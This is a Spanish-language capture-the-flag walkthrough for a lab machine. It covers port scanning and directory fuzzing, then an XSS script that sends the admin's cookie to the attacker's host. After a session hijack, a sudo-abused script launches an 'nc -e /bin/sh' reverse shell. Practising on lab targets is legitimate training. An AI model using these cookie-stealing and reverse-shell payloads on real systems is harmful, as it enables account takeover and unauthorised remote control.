


### nmap

realizamos un escaneo con Nmap y encontramos estos puertos abiertos 


--- 

#### web

accedemos al sitio web 

> no encontramos nada, vamos hacer fuzzing a la web



---

#### fuzzing

realizamos un escaneo con gobuster, usamos el comando 

```
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/common.txt

```
encontramos el dominio /support


---

#### burpsuite


rellenamos el campo con cualquier informacion

>vamos interceptar las peticiones con **Burpsuite** 


---


esta es la peticion con **Burpsuite** 


---


en otra terminal los colocamos en escucha 

```
python3 -m http.server 80

```




--- 

#### script


vamos a robarnos las cookies de Administrador 

utilizando este script

```
<script>var i=new Image(); i.src="http://<tu ip> :8001/?cookie="+btoa(document.cookie);</script>

```


---


lo colocamos de esta manera el script que previamente creamos 


---


#### base64

vamos al servidor que nos colocamos en escucha y conseguimos la cookie de sesion 
pero la cookie esta en base64 vamos a descodearla 


---

#### cookie 


usamos este comando 

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d 

```
la conseguimos 


---


vamos a la pagina y inspeccionamos nos dirigimos a **storage** luego a **cookies** y la colocamos,

> recuerden refrescar la pagina 


---

al momento de recargar nos dara acceso al dashboard


---

#### payload

creamos un payload 


---


interceptamos la peticion a la web 

> colocaremos el payload 

> antes de mandar la peticion por Burpsuite recordemos colocarnos en escucha 


---

#### Burpsuite

mandamos la peticion con Burpsuite y conseguimos una shell


---


flag de user conseguida 


---


vamos utilizar el comando sudo -l para verificar el uso de permisos en el usuario en el cual nos encontramos 
```
sudo -l 

```
nos fijamos que podemos usar 

> /usr/bin/syscheck


---

#### abuso de archivo

hacemos cat a la ruta 

Vemos que el archivo initdb.sh se está lanzando, por lo que lo que podemos hacer es poner una carga útil en ese archivo


---

```
echo "nc -e /bin/sh 10.10.14.132 1212" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck

```


---

#### shell 

en otra terminal nos colocamos en escucha y listo conseguimos la shell 


